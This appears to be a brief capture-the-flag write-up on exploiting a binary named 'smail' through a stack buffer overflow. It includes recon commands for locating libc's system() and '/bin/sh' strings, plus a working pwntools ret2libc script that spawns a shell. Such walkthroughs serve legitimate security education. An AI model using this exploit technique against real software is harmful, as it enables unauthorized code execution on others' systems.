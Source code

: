 ```bash
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment
```

We can try `ret2libc` buffer overflow, this is due to the message `limit(80)`, if we use the binary and do this, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250424145012.png)

We got `segmentation fault (core dumped)`, we can do the following to get each address:

```
ldd smail
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
ROPgadget --binary smail | grep rdi
objdump -d smail | grep ret
```

let's use the following payload:

```python
#!/usr/bin/env python3

from pwn import *

exploit = process('./smail')

base = 0x7ffff79e2000
sys = base + 0x4f550
shell = base + 0x1b3e1a

rop_rdi = 0x4007f3

payload = b'\x69' * 72
payload += p64(0x400556)
payload += p64(rop_rdi)
payload += p64(shell)
payload += p64(sys)
payload += p64(0x0)


exploit.clean()
exploit.sendline("2")
exploit.sendline(payload)
exploit.interactive()
```